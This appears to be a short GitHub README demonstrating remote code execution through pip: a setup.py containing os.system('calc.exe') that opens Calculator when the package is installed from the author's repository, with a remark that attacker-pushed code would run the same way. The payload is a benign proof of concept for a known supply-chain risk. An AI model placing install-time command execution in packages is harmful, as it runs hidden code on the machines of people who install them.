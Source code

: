 ## RCE Via PIP

```a package-management system written in Python and is used to install and manage software packages```

This code in setup.py

```
import os
os.system("calc.exe")
```
Is used to open Calculator app , When users intall the pacakge with 

```
pip install git+https://github.com/slvignesh05/RCE-PIP.git
```

The Malicious codes pushed in the repo by attacker will be executed!.

Hopefully we get an RC3.

![cat3](https://raw.githubusercontent.com/slvignesh05/RCE-PIP/refs/heads/main/Public/cat3.jpeg)
